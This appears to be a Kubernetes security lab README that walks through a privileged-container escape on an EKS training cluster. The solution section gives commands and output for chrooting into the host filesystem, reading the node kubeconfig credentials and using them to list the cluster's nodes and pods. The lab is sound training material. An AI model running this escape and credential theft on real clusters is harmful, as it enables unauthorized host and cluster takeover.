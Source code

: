 # Scenario: Escape to the Host System

## Prerequisites

- Vision One Container Security
- Playground One EKS Cluster
- Playground One Scenarios
  - Running app: System Monitor

Ensure to have the EKS Cluster including the Scenarios up and running:

```sh
pgo --apply eks
pgo --apply scenarios
```

## Attribution

This scenario is based on [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/) but adapted to work an Playground One and EKS.

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

This scenario showcases the common misconfigurations and one of the error-prone security issues in Kubernetes, container environments, and the general security world. Giving privileges that are not required for things always makes security worse. This is especially true in the containers and Kubernetes world. You can also apply this scenario further and beyond the container to other systems and services based on the configuration and setup of the cluster environments and resources. In this scenario you will see a privileged container escape to gain access to the host system.

By the end of the scenario, you will understand and learn the following:

- Able to exploit the container and escape out of the docker container
- You will learn to test and exploit the misconfigured and privileged containers
- Learn about common misconfigurations and possible damage due to them for the containers, Kubernetes, and clusterized environments

## The story

Most of the monitoring, tracing, and debugging software requires extra privileges and capabilities to run. In this scenario, you will see a pod with extra capabilities and privileges including HostPath allowing you to gain access to the host system and provide Node level configuration to gain complete cluster compromise.

> ***Note:*** To get started with the scenario, navigate to `http://<loadbalancer_dns_system_monitor>`

## Goals

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access.

> ***Tip:*** Gain access to the host system and obtain the node level kubeconfig file `/var/lib/kubelet/kubeconfig`, and query the Kubernetes nodes using the obtained configuration.

### Hints

<details>
<summary>Click here</summary>

✨ Are you still in the container?
<br><br>
See the mounted file systems, also look the capabilities available for the container using capsh 🙌<
<br><br>
✨ Escaped container?
<br><br>
You can recon the system, some interesting places to obtain the node level configuration are `/var/lib/kubelet/kubeconfig` and I hope you know how to query Kubernetes API for nodes? 🎉<br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as `/host-system` is mounted.

```sh
capsh --print
```

```sh
mount
```

Now you can explore the mounted file system by navigating to the `/host-system` path

```sh
ls /host-system/
```

You can gain access to the host system privileges using `chroot`.

```sh
chroot /host-system bash
```

As you can see, now you can access all the host system resources like docker containers, configurations, etc.

Trying to use the docker client fails.

```sh
docker ps
```

```ascii
bash: docker: command not found
```

This does not work, since we're on a Kubernetes optimized node OS with no docker provided.

```sh
uname -a
```

```ascii
Linux system-monitor-6dfbdbb7d-w6mdv 5.10.184-175.749.amzn2.x86_64 #1 SMP Wed Jul 12 18:40:28 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```sh
cat /var/lib/kubelet/kubeconfig
```

```ascii
apiVersion: v1
kind: Config
clusters:
- cluster:
    certificate-authority: /etc/kubernetes/pki/ca.crt
    server: https://BD215DBE2E4127977439D904B2AD3307.gr7.eu-central-1.eks.amazonaws.com
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
    user: kubelet
  name: kubelet
current-context: kubelet
users:
- name: kubelet
  user:
    exec:
      apiVersion: client.authentication.k8s.io/v1beta1
      command: /usr/bin/aws-iam-authenticator
      args:
        - "token"
        - "-i"
        - "playground-one-eks"
        - --region
        - "eu-central-1"
```

Sadly, there is no `kubectl` as well.

```sh
kubectl
```

```ascii
bash: kubectl: command not found
```

Trying to use the package manager `yum` will not solve the problem. But navigating to https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux will help:

```sh
cd
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
```

Try to get the available nodes of our cluster:

```sh
./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
```

Can you do more?

```sh
./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get pods -A
```

```ascii
NAMESPACE           NAME                                               READY   STATUS    RESTARTS   AGE
goat                system-monitor-6dfbdbb7d-w6mdv                     1/1     Running   0          53m
kube-system         aws-load-balancer-controller-577dcc6f77-sqtfr      1/1     Running   0          92m
kube-system         aws-node-8wl6v                                     1/1     Running   0          92m
kube-system         aws-node-ksdjv                                     1/1     Running   0          92m
kube-system         cluster-autoscaler-6696cf9bff-2s52q                1/1     Running   0          92m
kube-system         coredns-6bcddfff7-hrwwl                            1/1     Running   0          92m
kube-system         coredns-6bcddfff7-kp266                            1/1     Running   0          92m
kube-system         ebs-csi-controller-7dffd5b9fd-2w7r8                6/6     Running   0          92m
kube-system         ebs-csi-controller-7dffd5b9fd-fdhfc                6/6     Running   0          92m
kube-system         ebs-csi-node-k77sx                                 3/3     Running   0          92m
kube-system         ebs-csi-node-vj6c7                                 3/3     Running   0          92m
kube-system         kube-proxy-62dls                                   1/1     Running   0          92m
kube-system         kube-proxy-mshz7                                   1/1     Running   0          92m
trendmicro-system   trendmicro-admission-controller-74d8d7f866-dv87r   1/1     Running   0          53m
trendmicro-system   trendmicro-oversight-controller-557df87c9-6c4dx    2/2     Running   0          69m
trendmicro-system   trendmicro-scan-manager-6ddb6f69b8-r85dk           1/1     Running   0          53m
trendmicro-system   trendmicro-scout-gkl4k                             2/2     Running   0          69m
trendmicro-system   trendmicro-scout-tz68w                             2/2     Running   0          69m
trendmicro-system   trendmicro-usage-controller-6944c5b55b-m8hgh       2/2     Running   0          53m
trendmicro-system   trendmicro-workload-operator-6cf5c98c6f-xq8bb      1/1     Running   0          69m
trivy-system        trivy-operator-57c774d7c4-hmnlk                    1/1     Running   0          53m
victims             java-goof-5878dd4dd-9lnst                          1/1     Running   0          53m
victims             web-app-854bdf944f-ddqcs                           1/1     Running   0          53m
```

```sh
./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
```

🎉 Success 🎉

</details>
